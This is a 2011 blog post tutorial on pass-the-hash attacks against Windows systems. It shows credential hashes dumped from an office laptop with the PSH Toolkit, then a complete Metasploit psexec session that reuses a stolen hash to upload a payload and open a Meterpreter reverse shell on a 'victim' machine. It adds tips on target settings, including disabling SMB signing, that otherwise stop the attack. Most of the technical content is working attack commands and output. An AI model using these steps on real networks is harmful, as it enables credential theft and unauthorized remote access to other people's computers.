 ```yaml
---
layout: blog-post
title: "Pass the Hash Exploitation on Windows"
excerpt: Pass the Hash Exploitation on Windows
disqus_id: /2011/08/16/passthehash/
location: Delhi, India
time: 10:00 PM
tags:
- Hacking
- Windows
- Pass The Hash
---
```



A Windows 2000/NT/XP/Vista/7 system can be compromised with a technique called [pass the Hash](http://en.wikipedia.org/wiki/Pass_the_hash). For us to exploit this technique, we must know some basica.

In a Windows based authentication such as NTLM or Kerberos, the password is never sent as cleartext. Instead the password is transformed into a hash(LM or NTLM Hash) and then sent to the server. The server then compares this hash against the stored hash and grants/denies the access.

There are two types of hashes:

* [LM hash, LanMan, or LAN Manager hash](http://en.wikipedia.org/wiki/LM_hash): It is the obsolete hashing algorithm. Refer to the link to see how it is computed.
* NTLMv2 Hash: This is latest hashing method used on Windows 7/Vists/2008 systems.

Whenever a domain user logs on to the client computer, the hash of its password is stored on the client so that user can be authenticated in future even if the domain controller is not available. There are two types of caching, which is mentioned [here](http://support.microsoft.com/kb/913485).

Now lets suppose, somebody has used your office laptop to log in and access some intranet based sites. Then that user's password hash is stored in your system.

You can retrieve these hashes using a utility such as [PSH Toolkit](http://oss.coresecurity.com/projects/pshtoolkit.htm). It contains a utility **whosthere** which can dump the hashes.

{% highlight text %}
C:\Documents and Settings\madhur\Desktop\pshtoolkit_v1.4\whosthere-alt>whosthere-alt.exe
WHOSTHERE-ALT v1.1 - by Hernan Ochoa (hochoa@coresecurity.com, hernan@gmail.com)
 - (c) 2007-2008 Core Security Technologies
This tool lists the active LSA logon sessions with NTLM credentials.
use -h for help.
the output format is: username:domain:lmhash:nthash

madhur:BACKTRACK:123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
BACKTRACK$:WORKGROUP:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
{% endhighlight %}

Once you have grabbed the hash, you can anytime compromise the victim's computer using metaspoilt's psexec module, if you know the IP address, which is not difficult considering an intranet evnironment.

{% highlight text %}
msf exploit(psexec) > use windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.0.13
RHOST => 192.168.0.13
msf exploit(psexec) > set LHOST 192.168.0.14
LHOST => 192.168.0.14
msf exploit(psexec) > set SMBDomain backtrack
SMBDomain => backtrack
msf exploit(psexec) > set SMBUser madhur
SMBUser => madhur
msf exploit(psexec) > set SMBPass 123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
SMBPass => 123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
msf exploit(psexec) > exploit

[*] Started reverse handler on 192.168.0.13:4444 
[*] Connecting to the server...
[*] Authenticating to 192.168.0.14:445|backtrack as user 'madhur'...
[*] Uploading payload...
[*] Created \wttVwMnA.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.14[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.14[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (nkgYMOZy - "MrDoYCoO")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \wttVwMnA.exe...
[*] Sending stage (749056 bytes) to 192.168.0.14
[*] Meterpreter session 6 opened (192.168.0.13:4444 -> 192.168.0.14:1035) at 2011-08-16 22:16:47 +0530

meterpreter > 
{% endhighlight %}

If you have trouble exploiting the target system, then it might be some security enabled your Administrator. For ex

* Simple file sharing is disabled (Windows XP)
* Windows UAC drops all the Administrator privileges from the SAT (Security Access Token) for REMOTE connections that are using LOCAL accounts. This restriction prevents all remote administrative functions such as connecting to administrative shares (C$, etc) installing services or launching a new process (psexec)
* "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters" on the target systems and setting the value of "RequireSecuritySignature" to "0".

References:
* [http://oss.coresecurity.com/pshtoolkit/doc/index.html](http://oss.coresecurity.com/pshtoolkit/doc/index.html)
* [https://www.infosecisland.com/blogview/9271-NTLM-Passwords-Cant-Crack-it-Just-Pass-it.html](https://www.infosecisland.com/blogview/9271-NTLM-Passwords-Cant-Crack-it-Just-Pass-it.html)


